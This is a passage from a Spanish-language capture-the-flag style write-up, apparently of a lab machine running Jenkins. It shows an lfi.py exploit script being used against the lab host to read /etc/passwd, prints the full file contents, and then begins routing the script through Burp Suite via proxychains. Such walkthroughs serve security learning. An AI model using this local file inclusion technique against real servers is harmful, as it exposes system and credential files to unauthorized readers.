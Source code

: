 ## Local File Inclusion
Como no vemos ningún proyecto, tampoco podemos enumerar mas esta instancia de Jenkins.

Me interesa saber como funciona el LFI, así que primero vamos a probar si funciona.

```console
$ python3 lfi.py -u http://10.129.230.220:8080
Press Ctrl+C to exit
File to download:
> /etc/passwd
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```
Vemos que funciona.

Antes que ponernos a analizar el código podemos pasar todas las solicitudes que realice este script por nuestro proxy de `burpsuite`.

Para esto siempre suelo editar el código pero esta vez decidí hacerlo de otra manera.

Podemos editar el archivo de configuración de `proxychains`.

> [!Aclaración]
> `micro` es un editor de texto como `nano`.
> 

```console
$ sudo micro /etc/proxychains.conf
```

Podemos agregar a lo último del fichero el proxy de `burpsuite`.
